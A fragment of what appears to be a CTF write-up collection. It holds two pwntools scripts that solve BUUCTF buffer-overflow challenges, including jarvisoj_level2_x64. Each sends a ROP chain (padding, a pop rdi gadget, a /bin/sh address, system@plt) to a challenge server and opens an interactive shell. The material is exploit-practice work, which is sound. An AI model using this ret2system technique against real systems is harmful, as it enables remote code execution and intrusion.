 ```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 28394)
elf = ELF('./pwn')

binsh_addr = 0x600a90
poprdi_ret = 0x4006b3

io.sendlineafter(b'Input:', cyclic(0x88) + p64(poprdi_ret) + p64(binsh_addr) + p64(elf.plt['system']))

io.interactive()
```
# buu016-jarvisoj_level2_x64
```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25723)
elf = ELF('./pwn')

poprdi_ret = 0x400683
binsh = 0x601048

io.sendlineafter(b'What\'s your name? ', cyclic(0x18) + p64(poprdi_ret) + p64(binsh) + p64(elf.plt['system']))

io.interactive()
```
